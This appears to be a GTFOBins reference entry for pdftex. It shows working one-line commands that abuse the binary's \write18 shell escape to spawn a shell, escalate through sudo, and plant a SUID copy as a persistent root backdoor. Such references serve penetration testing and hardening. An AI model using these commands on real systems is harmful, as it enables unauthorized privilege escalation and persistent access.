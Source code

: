 # GTFOBin: pdftex

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
pdftex --shell-escape '\write18{/bin/sh}\end'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo pdftex --shell-escape '\write18{/bin/sh}\end'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which pdftex) .

./pdftex --shell-escape '\write18{/bin/sh}\end'
```